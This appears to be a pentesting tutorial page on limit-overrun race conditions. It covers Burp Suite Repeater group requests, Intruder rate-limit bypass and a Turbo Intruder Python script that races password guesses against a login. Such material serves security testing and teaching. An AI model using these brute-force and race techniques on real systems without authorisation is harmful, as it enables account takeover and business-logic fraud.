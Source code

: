 ```yaml
---
icon: virus-slash
---
```


# Limit overrun race conditions

## Limit Overrun Race Conditions

The most well-known type of race condition enables you to exceed some kind of limit imposed by the business logic of the application.



There are many variations of this kind of attack, including:

* Redeeming a gift card multiple times
* Rating a product multiple times
* Withdrawing or transferring cash in excess of your account balance
* Reusing a single CAPTCHA solution
* Bypassing an anti-brute-force rate limit



Limit overruns are a subtype of so-called "time-of-check to time-of-use" (TOCTOU) flaws.



## Detecting and Exploiting Limit Overrun (Repeater)

The process of detecting and exploiting limit overrun race conditions is relatively simple. In high-level terms, all you need to do is:

1. Identify a single-use or rate-limited endpoint that has some kind of security impact or other useful purpose.
2. Issue multiple requests to this endpoint in quick succession to see if you can overrun this limit.

### Sending a Group of Requests (Repeater)

* Right click the request and send it to repeater
* In the repeater tab right click the request and agin send it to repater or you can use ctrl+r (You have to create 15 to 20 requests)
* Now, click on the + icon besides the last request tab
* Select Create tab group
* Select all the requests
* Give it a name
* Select a color
* Click on Create
* Expand the send button&#x20;
* Select Send group in parallel option
* Click on the Send group (parallel button)



## Bypassing Rate Limits (Anti Bruteforce Mechanism)

* Send the login request to the intruder
* Set the payload position to password field
* In the payloads tab enter some default passwords
* Switch to the Resource pool tab
* Select Custom resource pool option&#x20;
* Click on Start attack button
* Look for the 302 response

## Using Turbo Intruder

* Send the post request to the repeater
* Right click on the request in the repeater
* Click Extensions -> send to Turbo Intruder
* replace the password with %s symbol in the request window
* paste the below code in the python scripts window

{% hint style="info" %}
Make sure that you have copied the passwords before.
{% endhint %}



```python
def queueRequests(target, wordlists):

    # if the target supports HTTP/2, use engine=Engine.BURP2 to trigger the single-packet attack
    # if they only support HTTP/1, use Engine.THREADED or Engine.BURP instead
    # for more information, check out https://portswigger.net/research/smashing-the-state-machine
    engine = RequestEngine(endpoint=target.endpoint,
                           concurrentConnections=1,
                           engine=Engine.BURP2
                           )

    # the 'gate' argument withholds part of each request until openGate is invoked
    # if you see a negative timestamp, the server responded before the request was complete

    passwords = wordlists.clipboard
    
    
    for password in passwords:
        engine.queue(target.req, password, gate='1')

    # once every 'race1' tagged request has been queued
    # invoke engine.openGate() to send them in sync
    engine.openGate('1')


def handleResponse(req, interesting):
    table.add(req)
```

* Click on the Attack button
* Look for 302 status code



***

## REFERENCES

* [https://portswigger.net/burp/documentation/desktop/tools/repeater/send-group#sending-requests-in-parallel](https://portswigger.net/burp/documentation/desktop/tools/repeater/send-group#sending-requests-in-parallel)

